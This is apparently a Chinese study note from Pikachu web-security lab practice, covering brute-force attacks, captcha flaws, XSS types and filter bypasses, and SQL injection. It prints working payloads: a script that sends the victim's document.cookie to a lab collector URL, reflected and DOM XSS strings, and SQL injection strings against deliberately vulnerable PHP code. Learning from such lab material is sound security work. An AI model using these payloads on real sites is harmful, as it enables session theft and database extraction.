<!-- TOC -->

- [Web安全](#web%E5%AE%89%E5%85%A8)
    - [暴力破解漏洞](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E6%BC%8F%E6%B4%9E)
        - [有效的字典](#%E6%9C%89%E6%95%88%E7%9A%84%E5%AD%97%E5%85%B8)
        - [漏洞测试流程](#%E6%BC%8F%E6%B4%9E%E6%B5%8B%E8%AF%95%E6%B5%81%E7%A8%8B)
        - [验证码](#%E9%AA%8C%E8%AF%81%E7%A0%81)
        - [防范措施](#%E9%98%B2%E8%8C%83%E6%8E%AA%E6%96%BD)
    - [跨站脚本漏洞 - XSS](#%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%BC%8F%E6%B4%9E---xss)
        - [跨站脚本漏洞概述](#%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%BC%8F%E6%B4%9E%E6%A6%82%E8%BF%B0)
        - [反射型XSSget](#%E5%8F%8D%E5%B0%84%E5%9E%8Bxssget)
        - [存储型XSS](#%E5%AD%98%E5%82%A8%E5%9E%8Bxss)
        - [DOM型XSS](#dom%E5%9E%8Bxss)
        - [案例1：GET型XSS获取cookie](#%E6%A1%88%E4%BE%8B1get%E5%9E%8Bxss%E8%8E%B7%E5%8F%96cookie)
        - [案例2：POST型XSS获取cookie](#%E6%A1%88%E4%BE%8B2post%E5%9E%8Bxss%E8%8E%B7%E5%8F%96cookie)
        - [案例3：XSS钓鱼 - basic认证](#%E6%A1%88%E4%BE%8B3xss%E9%92%93%E9%B1%BC---basic%E8%AE%A4%E8%AF%81)
        - [案例4：XSS键盘记录](#%E6%A1%88%E4%BE%8B4xss%E9%94%AE%E7%9B%98%E8%AE%B0%E5%BD%95)
        - [XSS盲打](#xss%E7%9B%B2%E6%89%93)
        - [XSS绕过-过滤-转换](#xss%E7%BB%95%E8%BF%87-%E8%BF%87%E6%BB%A4-%E8%BD%AC%E6%8D%A2)
        - [XSS绕过-过滤-编码](#xss%E7%BB%95%E8%BF%87-%E8%BF%87%E6%BB%A4-%E7%BC%96%E7%A0%81)
        - [XSS绕过-htmlspecialchars使用](#xss%E7%BB%95%E8%BF%87-htmlspecialchars%E4%BD%BF%E7%94%A8)
        - [XSS实战练习](#xss%E5%AE%9E%E6%88%98%E7%BB%83%E4%B9%A0)
    - [SQL注入](#sql%E6%B3%A8%E5%85%A5)
        - [数字型注入](#%E6%95%B0%E5%AD%97%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [字符型注入](#%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [搜索型注入](#%E6%90%9C%E7%B4%A2%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [xx型注入](#xx%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [案例1-基于union的信息获取](#%E6%A1%88%E4%BE%8B1-%E5%9F%BA%E4%BA%8Eunion%E7%9A%84%E4%BF%A1%E6%81%AF%E8%8E%B7%E5%8F%96)
        - [mysql相关知识](#mysql%E7%9B%B8%E5%85%B3%E7%9F%A5%E8%AF%86)
    - [相关链接](#%E7%9B%B8%E5%85%B3%E9%93%BE%E6%8E%A5)

<!-- /TOC -->
# Web安全


## 暴力破解漏洞

暴力破解 = 连续性尝试 + 字典+ 自动化

### 有效的字典

- 弱口令
- 社工库，已收集的账号密码，比如脱裤收集的，可以撞库
- 使用指定字符利用工具按照规则生成密码
- 常用账户密码，如admin/root
- 遵循注册时的密码要求

### 漏洞测试流程

- 确认暴力破解的可能性，如抓包
- 优化字典，如密码限定字符、长度
- 配置自动化工具，如超时时间、重试次数
- [常见字典](https://github.com/danielmiessler/SecLists)
- 注意事项：字典导入时不能有中文路径

### 验证码

- 作用
    - 登陆暴力破解
    - 防止机器恶意注册
- 认证流程
    - 登陆页面，后台生成验证码，同时使用算法生成图片，并将图片response给客户端，同时将算法生成的值全局赋值存到 SESSION中
    - 校验验证码，客户端将认证信息和验证码一同提交，后台对提交的验证码与 SESSION里面的验证码进行比较
    - 客户端重新刷新页面，再次生成新的验证码，验证码算法中一般包含随机函数，所以每次刷新都会改变
- 不安全验证码 - 客户端
    - 使用前端js实现验证码(纸老虎)
    - 验证码在cookie容易泄露，可被获取
    - 将验证码在前端源代码中泄露，容易被获取
- 不安全验证码 - 服务端
    - 验证码在后台不过期，导致可以长期被使用
    - 验证码校验不严格，逻辑出现问题
    - 验证码设计的太过简单或者有规律，容易被猜解
    - session？

### 防范措施

- 设计安全的验证码（安全的流程 + 复杂而又可用的图形）
- 对认证错误的提交进行计数并给出限制，比如连续5次密码错误，锁定2小时
- 必要的情况下，使用双因素认证
- token对防止暴力破解没有用



## 跨站脚本漏洞 - XSS

### 跨站脚本漏洞概述

- XSS漏洞一直被评估为web漏洞中危害较大的漏洞，在 OWASP TOP10的排名前三
- XSS是一种发生在Web前端的漏洞，所以其危害的对象也主要是前端用户
- XSS漏洞可以用来进行钓鱼攻击、前端js挖矿、用户 cookie 获取。甚至可以结合浏览自身的漏洞对用户主机进行远程控制
- 常见类型
  - 反射型，交互的数据一般不会被存在在数据库里面，一次性，一般岀现在查询类页面等
  - 存储型，存储在数据库里面，永久性，一般岀现在留言板，注册等页面
  - DOM型，不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题，一次性，也属于反射型
漏洞形成原因：主要原因是程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害
- 测试流程
  - 在目标站点上找到输入点，比如查询接口，留言板等
  - 输入一组“特殊字符 + 唯一识别字符”，点击提交后，查看返回的源码，是否有做对应的处理
  - 通过搜索定位到唯一字符，结合唯一字符前后语法确认是否可以构造执行js的条件（构造闭合）
  - 提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在XS漏洞
- TIPS
  - 一般查询接口容易出现反射型XSS，留言板容易岀现存储型XSS
  - 由于后台可能存在过滤措施，构造的script可能会被过滤掉，而无法生效，或者环境限制了执行(浏览器)
  - 通过变化不同的script，尝试绕过后台过滤机制

### 反射型XSS(get)

该测试中，前台未进行输入限制，后台未进行输入转义，导致js脚本正常执行，构成反射性XSS

```html
<p class='notice'>who is <script>alert('xss')</script>,i don't care!</p> 
```
对于get型XSS，payload直接放在url中

```html
http://192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&submit=submit
```

- GET方式的XSS漏洞更加容易被利用，一般利用的方式是将带有跨站脚本的url伪装后发送给目标，而POST方式由于是以表单方式提交，无法直接使用URL方式进行攻击
- GET和POST典型区别：GET是以url方式提交数据，POST是以表单方式在请求体里面提交

### 存储型XSS

存储型XSS漏洞跟反射型形成的原因一样，不同的是存储型XSS下攻击者可以将脚本注入到后台存储起来，构成更加持久的危害，因此存储型XSS也称“永久型”XSS。

```html
<p class='con'><script>alert('xss')</script></p>
<http://192.168.43.65/pikachu/vul/xss/xss_stored.php>
```


### DOM型XSS

[DOM举例](https://www.w3school.com.cn/tiy/t.asp?f=hdom_document_getbyid)

```html
<!--源码-->
<a href='"+str+"'>what do you see?</a>
<!--payload-->
#' onclick="alert('xss')"/>
<!--闭合-->
<a href='#' onclick="alert('xss')"/>'>what do you see?</a>
```

### 案例1：GET型XSS获取cookie

```html
<!--注意pkxss的路径-->
<script>document.location = 'http://192.168.43.65/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>

192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=<script>document.location+%3D+'http%3A%2F%2F192.168.43.65%2Fpikachu%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D'+%2B+document.cookie%3B<%2Fscript>&submit=submit
```

[什么是cookie？](https://www.jianshu.com/p/6fc9cea6daa2)

### 案例2：POST型XSS获取cookie

### 案例3：XSS钓鱼 - basic认证

### 案例4：XSS键盘记录

**什么是跨域？**

| http:// | www.   | xyz.com: | 8080 | /script/test.js |
| ------- | ------ | -------- | ---- | --------------- |
| 协议    | 子域名 | 主域名   | 端口 | 资源地址        |

当协议、主机（主域名,子域名）、端口中的任意一个不相同时，称为不同域。我们把不同的域之间请求数据的操作，称为跨域操作。

**跨域-同源策略**
- 为了安全考虑，所有的浏览器都约定了“同源策略”,，同源策略规定，两个不同域名之间不能使用JS进行相互操- 作。
- 比如: x.com域名下的javascript并不能操作y.com域下的对象。
- 如果想要跨域操作,则需要管理员进行特殊的配置。

### XSS盲打

用户提交信息，推测后台管理员会看，输出在管理员看到的页面。获取管理员cookie，冒充管理员在后台为所欲为。

### XSS绕过-过滤-转换

1. 前端限制绕过,直接抓包重放,或者修改html前端代码
2. 大小写,比如:<SCriPt>
3. 拼凑:<scr<script>ipt> 
4. 使用注释进行干扰:<scri<!--test-->pt>

### XSS绕过-过滤-编码

核心思路：后台过滤了特殊字符,比如<script>标签,但该标签可以被各种编码,后台不一定会过滤,当浏览器对该编码进行识别时,会翻译成正常的标签，从而执行.
注意：在使用编码时需要注意编码在输出点是否会被正常识别和翻译.
```html
<!--例如-->
<img src=x onerror=”alert('xss')" />可以把alert("xss")进行html编码
<img src=x onerror "&#97;&# 108;&# 101;&# 114;&# 116;&#40;&#39;&# 120;&# 115;&# 115;&#39;&#41;
```


### XSS绕过-htmlspecialchars()使用

### XSS实战练习

xss-lab，放在xmapp的htdocs文件夹中，打开apache，访问即可。


## SQL注入
在owasp发布的top10排行榜里，注入漏洞一直是危害排名第一的漏洞，其中注入漏洞里面首当其冲的就是数据库注入漏洞。

### 数字型注入
```php
//后台源码
if(isset($_POST['submit']) && $_POST['id']!=null){
    //这里没有做任何处理，直接拼到select里面去了,形成Sql注入
    $id=$_POST['id'];
    $query="select username,email from member where id=$id";
    $result=execute($link, $query);
    //这里如果用==1,会严格一点
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $username=$data['username'];
            $email=$data['email'];
            $html.="<p class='notice'>hello,{$username} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的user id不存在，请重新输入！</p>";
    }
}
```
```sql
--正常查询出一条记录
select eamil where user_id = 1 --or 1=1; 
--注入，查询所有记录
select eamil where user_id = 1 or 1 = 1；
```

### 字符型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```
```sql
--正常情况
select email from user where username = 'kobe';-- kobe' or 1=1#
--在url中构造闭合，注入
select email from user where username = 'kobe' or 1=1#'
```

### 搜索型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){

    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];

    //这里的变量是模糊匹配，需要考虑闭合
    $query="select username,id,email from member where username like '%$name%'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        //彩蛋:这里还有个xss
        $html2.="<p class='notice'>用户名中含有{$_GET['name']}的结果如下：<br />";
        while($data=mysqli_fetch_assoc($result)){
            $uname=$data['username'];
            $id=$data['id'];
            $email=$data['email'];
            $html1.="<p class='notice'>username：{$uname}<br />uid:{$id} <br />email is: {$email}</p>";
        }
    }else{

        $html1.="<p class='notice'>0o。..没有搜索到你输入的信息！</p>";
    }
}
```

```sql
--正常情况
select email from user where username like '%k%'; --k%' or 1=1#
--构造闭合，注入
select email from user where username like '%k%' or 1=1#%';

```

### xx型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}

```

```sql
--正常情况
select email from user where username = kobe;
--构造闭合，注入
select email from user where username = 'kobe') or 1=1#;
```

```sql
--通过一个输入，查看返回结果，并判断输入是否参与后台的sql语句中
---如果1正常输出，2不能正常输出，说明拼接成功，存在sql漏洞
kobe' and 1=1#;
kobe' and 1=2#;

--单个字符的测试，如'或者"，欺骗后天数据库报错
```
总结：闭合测试，构造sql，欺骗后台执行

>小知识：MySQ有三种注释，``#`` ``--`` ``/**/``

### 案例1-基于union的信息获取
```sql
--union用法，前后字段数一致
select email from user where id = 1 union select 字段1 from 表名 where 条件;

select 



```
### mysql相关知识
```sql
select database();--获取当前数据库名称
select user();--当前用户权限
select version();--当前数据库版本

--查询表中有几个字段
---使用第一列进行排序，如果第一列存在，则可以正常输出，否则错误
select id from user where username = 'kobe' order by 1;

```

mysql自带一个数据库information_schema，这个表非常重要，里面有很多信息。


## 相关链接
[视频教程](https://www.ichunqiu.com/course/63838)[|靶场](https://github.com/zhuifengshaonianhanlu/pikachu)